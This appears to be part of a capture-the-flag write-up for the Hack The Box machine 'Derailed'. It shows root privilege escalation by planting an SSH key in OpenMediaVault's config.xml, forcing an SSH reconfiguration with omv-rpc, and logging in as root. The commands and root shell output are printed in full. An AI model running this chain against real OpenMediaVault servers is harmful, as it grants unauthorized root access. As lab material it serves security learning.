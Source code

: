 
`su openvaultmedia-webgui` and put passwd


now i see a nice server in 127.0.0.1:80 chisel it's a webserver with omv service!


i notice a nice thing in /etc/openmediavault/config.xml 


`<sshpubkeys>` object! 



We can overwrite the config.xml with one crafted with ssh-keys!  on this [article](https://forum.openmediavault.org/index.php?thread/7822-guide-enable-ssh-with-public-key-authentication-securing-remote-webui-access-to/)

`ssh-keygen -t rsa; ssh-keygen -e -f ~/.ssh/id_rsa`  to generate the needed key


Note that we need to add the <sshpubkey> tag because we are specifying a new object



than we can upload a new xml with the crafted info like root inside test and refresh the config

`./omv-confdbadm read conf.system.usermngmnt.user`



and then we have to force ssh `./omv-rpc -u admin "config" "applyChanges" "{ \"modules\": [\"ssh\"],\"force\":true}"`


now we can ssh easyly with `ssh root@derailed.htb` and now i got a shell with root permission!


```bash
ssh root@derailed.htb
The authenticity of host 'derailed.htb (127.0.0.1)' can't be established.
ECDSA key fingerprint is SHA256:2tql0UXpaDMuS+ebElTA+mVdK8ncQuHczEi8u/uMV7s.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
yes
Warning: Permanently added 'derailed.htb' (ECDSA) to the list of known hosts.
Linux derailed 5.19.0-0.deb11.2-amd64 #1 SMP PREEMPT_DYNAMIC Debian 5.19.11-1~bpo11+1 (2022-10-03) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
root@derailed:~# cat /root/root.txt
cat /root/root.txt
bea58bf339ba091ebd35ca4983a86b24

```






















